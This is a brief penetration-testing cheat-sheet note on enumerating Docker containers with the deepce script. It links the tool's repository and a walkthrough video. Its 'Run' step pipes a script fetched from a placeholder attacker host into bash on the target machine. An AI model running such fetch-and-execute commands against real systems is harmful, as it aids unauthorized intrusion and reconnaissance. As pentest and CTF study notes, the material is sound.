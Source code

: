 # Docker Enumeration

## deepce

Deepce is an automated enumeration tool that can be used to scan docker containers, similar to [[Linux Enumeration#Linpeas|Linpeas]].

### Setup

Git repository: [https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce)

Install on host:

```bash
$ wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
```

### Run

[[Fundamental Skills#Python Webserver|Run a webserver]] on host machine to serve the script.

On target machine:

```bash
$ curl http://[HOST_IP]:[SERVER_PORT]/deepce.sh | bash
```

### Practical Example

Ippsec's [Laboratory Video](https://youtu.be/ozmHeApuSj8?t=1370)

# Tags

#cheat-sheet #enum #docker